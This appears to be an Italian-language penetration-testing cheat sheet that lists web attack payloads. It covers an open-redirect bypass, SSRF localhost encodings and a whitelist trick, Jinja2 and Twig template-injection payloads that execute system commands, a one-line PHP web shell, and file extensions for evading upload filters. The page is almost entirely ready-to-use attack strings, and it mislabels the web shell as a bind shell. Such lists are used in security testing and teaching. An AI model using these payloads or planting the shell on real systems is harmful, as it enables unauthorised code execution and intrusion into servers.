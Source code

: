 # Open Redirect

Quando un redirect è forzato a iniziare con `/`, l'aggiunta del sito web al redirect anteponendo una seconda `/`, supera il controllo.  
// sono interpretate come alias per http:// or https://.

`/redirect.php?url=//www.test.test` == GET / - Host: www.test.test

# SSRF

```
127.1
2130706433
017700000001

http://<dominio corretto e sotto whitelist>.<dominio ad-hoc che risponde 127.0.0.1 per ogni sotto dominio>
```

# SSTI
[Server-Side Template Injection - @albinowax](https://portswigger.net/research/server-side-template-injection)

**Jinja2**
```
{{7*7}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

**Twig**
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

# File upload

**Bind shell**

```php
<?php
	system($_GET["c"]);
?>
```

**Lista di estensioni**

- **PHP**: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
    - **Working in PHPv8**: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp
- **ASP**: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
- **Jsp**: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
- **Coldfusion**: .cfm, .cfml, .cfc, .dbm
- **Flash**: .swf
- **Perl**: .pl, .cgi
- **Erlang Yaws Web Server**: .yaws
